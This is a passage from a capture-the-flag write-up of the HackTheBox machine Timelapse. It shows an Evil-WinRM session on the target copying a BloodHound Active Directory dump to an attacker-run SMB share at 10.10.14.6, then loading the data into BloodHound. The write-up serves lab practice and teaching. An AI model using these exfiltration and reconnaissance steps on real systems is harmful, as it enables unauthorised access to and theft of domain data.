> Note: You can also transfer files via `evil-winrm`'s `download` and `upload` command.

- **Upload the collected zip file via SMB:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:23:21(HKT)]
└> impacket-smbserver attacker_share . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[...]
```

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net use \\10.10.14.6\attacker_share
The command completed successfully.
*Evil-WinRM* PS C:\Users\legacyy\Desktop> copy 20230809100416_BloodHound.zip \\10.10.14.6\attacker_share\
```

- **Unzip it:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:25:10(HKT)]
└> unzip 20230809100416_BloodHound.zip 
Archive:  20230809100416_BloodHound.zip
  inflating: 20230809100416_computers.json  
  inflating: 20230809100416_users.json  
  inflating: 20230809100416_groups.json  
  inflating: 20230809100416_containers.json  
  inflating: 20230809100416_domains.json  
  inflating: 20230809100416_gpos.json  
  inflating: 20230809100416_ous.json  
```

- **Use Bloodhound to view the collected data:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:26:27(HKT)]
└> sudo neo4j start
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:26:42(HKT)]
└> bloodhound 

```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809172708.png)
